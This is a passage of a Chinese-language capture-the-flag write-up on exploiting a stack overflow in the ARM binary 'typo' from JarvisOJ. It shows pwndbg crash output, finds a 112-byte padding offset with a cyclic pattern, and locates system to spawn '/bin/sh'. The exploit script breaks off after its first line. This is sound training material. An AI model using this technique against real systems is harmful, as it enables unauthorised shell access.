 ```assembly
 R2   0x7e
 R3   0x0
 R4   0x62616162 ('baab')
 R5   0x0
 R6   0x0
 R7   0x0
 R8   0x0
 R9   0xa5ec ◂— push   {r3, r4, r5, r6, r7, r8, sb, lr}
 R10  0xa68c ◂— push   {r3, r4, r5, lr}
 R11  0x62616163 ('caab')
 R12  0x0
 SP   0xfffef098 ◂— 0x62616165 ('eaab')
 PC   0x62616164 ('daab')
───────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────
Invalid address 0x62616164










────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ sp  0xfffef098 ◂— 0x62616165 ('eaab')
01:0004│     0xfffef09c ◂— 0x62616166 ('faab')
02:0008│     0xfffef0a0 ◂— 0x62616167 ('gaab')
03:000c│     0xfffef0a4 ◂— 0x62616168 ('haab')
04:0010│     0xfffef0a8 ◂— 0x62616169 ('iaab')
05:0014│     0xfffef0ac ◂— 0x6261616a ('jaab')
06:0018│     0xfffef0b0 ◂— 0x6261616b ('kaab')
07:001c│     0xfffef0b4 ◂— 0x6261616c ('laab')
Program received signal SIGSEGV
pwndbg> cyclic -l 0x62616164
112
```
因此 padding 長度即爲 112
> 或者可以更暴力一點直接爆破棧溢出的長度

至於 system 的地址，因爲這個 binary 被去除了符號表，我們可以先用 `rizzo` 來恢復部分符號表（關於恢復符號表暫時可以先看參考鏈接，以後會逐漸介紹）。雖然 rizzo 在這個 binary 上恢復的效果不好，但很幸運，在識別出來的幾個函數中剛好有 system
```C
char *__fastcall system(int a1)
{
  char *result; // r0

  if ( a1 )
    result = sub_10BA8(a1);
  else
    result = (char *)(sub_10BA8((int)"exit 0") == 0);
  return result;
}
```
> 或者可以通過搜索 /bin/sh 字符串來尋找 system 函數
## exp
所有的條件都有了，構造 system("/bin/sh") 即可
```
jarvisOJ_typo [master●●] cat solve.py 
#!/usr/bin/env python
```